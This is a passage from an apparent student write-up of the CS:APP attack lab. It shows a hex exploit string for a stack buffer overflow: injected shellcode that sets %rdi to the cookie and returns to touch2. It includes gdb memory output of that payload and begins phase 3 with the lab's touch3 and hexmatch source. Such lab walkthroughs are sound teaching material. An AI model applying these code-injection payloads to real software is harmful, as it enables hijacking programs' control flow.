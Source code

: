 Now we can make the answer:

```c
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```

Note: if you use gdb to see `%rsp` after calling `getbuf`, you'll see

```c++
0x5561dc78:  0x48 0xc7 0xc7 0xfa 0x97 0xb9 0x59 0x68
0x5561dc80:  0xec 0x17 0x40 0x00 0xc3 0x00 0x00 0x00
0x5561dc88:  0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0x5561dc90:  0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0x5561dc98:  0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0x5561dca0:  0x78 0xdc 0x61 0x55 0x00 0x00 0x00 0x00
```

### phase_3

This phase needs us to call `touch3`, and pass the validation

```c
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    // "%.8x" means put the unsigned hex string of cookie to s
    sprintf(s, "%.8x", val);
    // When using strncmp, actually compare about the ascii
    // ascii string of cookie(ascii): 35 39 62 39 39 37 66 61
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)     //   address of touch3：0x4018fa
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

Now that the address pointer s is unpredictable, we can't directly change the value of it. But we can still change the value of `*sval`(%rdi).
